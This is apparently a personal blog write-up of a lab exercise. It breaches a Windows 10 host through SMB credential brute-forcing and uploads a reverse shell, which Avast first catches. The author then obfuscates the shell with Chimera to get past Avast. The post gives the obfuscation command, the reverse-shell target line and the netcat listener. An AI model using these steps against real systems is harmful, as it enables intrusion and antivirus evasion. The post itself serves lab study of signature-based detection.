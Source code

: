 ```yaml
---
layout: post
date: 2024-02-22
title: "ObFuSCaTInG AvASt"
categories: []
tags: []
---
```


Greetings! I was bored so I decided to see how hard it would be to bypass a simple home antivirus. I googled "free antivirus" and the first thing that popped-up was [Avast](https://www.avast.com/en-us/index#pc). I installed the x64 executable on an updated Windows 10 Pro system (Note: This is a completely default install. I did not mess with any settings). I wanted to do this in a lab environment where I achieve access prior to trying to get around the antivirus. A screenshot confirming the antivirus is running can be seen below.

![Image of Avast showing the Windows PC is protected.](/assets/img/Obfuscating_Avast/Protected_Avast_Screenshot.png)

This lab environment is simply a Windows 10 Pro box with some professional modifications and an Attack Host (Kali Linux) on the same private network. Initially, I started an NMAP scan to enumerate the host.
![Screenshot of NMAP command against Windows 10 Host](/assets/img/Obfuscating_Avast/NMAP_Scan_Screenshot.png)

As seen in the screenshot above, SMB (Port 445) is running. To enumerate SMB, I used smbclient to successfully authenticate with the '-N' (no username/password) option. 
![Screenshot of SMBClient listing with null session to see shared drives](/assets/img/Obfuscating_Avast/SMBClient_List_Screenshot.jpeg)
Following successful connection, I attempted to place a file without a username and password. This attempt failed due to security settings as seen in the screenshot below. 

![Screenshot of SMBClient failing to put a file](/assets/img/Obfuscating_Avast/SMBClient_Put_Screenshot.jpeg)

The earlier screenshot had a comment from "lemon" - so let's try to brute-force credentials for username "lemon". The [Netexec](https://github.com/Pennyw0rth/NetExec) tool
![Netexec Brute-force for SMB screenshot](/assets/img/Obfuscating_Avast/Netexec_Brute_Force.jpeg)

We find credentials for `lemon:CHOCOLATE`
Then we can authenticate and attempt to place a reverse shell script [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

![Attempt to place a shell in the SMB share](/assets/img/Obfuscating_Avast/SMBClient_placing_shell.jpeg)

The reverse shell gets stuck uploading in the previous image. Swapping over to the Windows 10 host, there is a Warning from AVAST that quarantined the reverse shell as it was uploaded. 
![Warning from AVAST for Reverse Shell](/assets/img/Obfuscating_Avast/AVAST_Reverse_Shell_warning.jpeg)

Avast was likely able to detect a threat here because [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) is a seven year-old reverse shell script with around 8,000 stars on Github. Although this script isn't necessarily malware, it definitely isn't a script an administrator would commonly use. Thus, it is classified as a PUP (Potentially Unwanted Program) and blocked.

My initial thought to evade detection is to obfuscate the script. Through my professional Googling I was able to find a script called [Chimera](https://github.com/tokyoneon/Chimeramade) made  by [TokyoNeon](https://x.com/tokyoneon_?s=20).

>Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

So, I cloned the repository and adjusted the last line in the reverse shell in `shells/Invoke-PowerShellTcp.ps1` to: 

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.175 -Port 8080
```

Once that is saved, I ran the script `chimera.sh` with options provided from `README.md`:

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /home/kali/NotAVirus.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

This obfuscates the script and places it in the home directory. Next, I started a listener on my host:

```
nc -lnvp 8080
```
Let's test. I uploaded the script via smbclient using lemon's credentials as we did before.  

![Successfully uploading Virus file to Windows Host - Also, why are you reviewing my source code?](/assets/img/Obfuscating_Avast/Uploading_Virus_Successfully.jpeg)

After waiting for a few minutes for the script to automatically execute, the netcat listener receives a connection back from the Windows host.

![Connection recieved from the reverse shell screenshot](/assets/img/Obfuscating_Avast/Reverse_Shell_Recieved.png)

To test command execution, I issued `whoami /groups` which reveals the current user is an administrator.

![Output from the command "Whoami /groups"](/assets/img/Obfuscating_Avast/WHOAMI_GROUPS_SCREENSHOT.png)

Furthermore, I confirmed the connection was active in command prompt with `netstat` and Avast wasn't showing any alerts. I would assume this is because an outgoing connection via PowerShell isn't inherently malicious. If anything, this demonstration shows the downfalls of signature-based detections.

![Checking netstat in cmd prompt and Antivirus status](/assets/img/Obfuscating_Avast/Connection_Active_Protected_Screenshot.jpeg)

Issuing additional commands to confirm I have administrator privileges and the reverse shell works:

![Screenshot with additional commands in Administrator's home directory](/assets/img/Obfuscating_Avast/Confidential_Screenshot.jpeg)

This was a fun exercise to try and get around pesky AVs. Further documentation and reading on the obfuscation script can be found here:
I hope you enjoyed reading! 

Additional resources:

- [Null Byte website](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-bypass-virustotal-amsi-detection-signatures-with-chimera-0333967/)
- [Chimera Github Link](https://github.com/tokyoneon/Chimera)
- [Trend Micro ASMI bypass techniques](https://www.trendmicro.com/en_vn/research/22/l/detecting-windows-amsi-bypass-techniques.html)

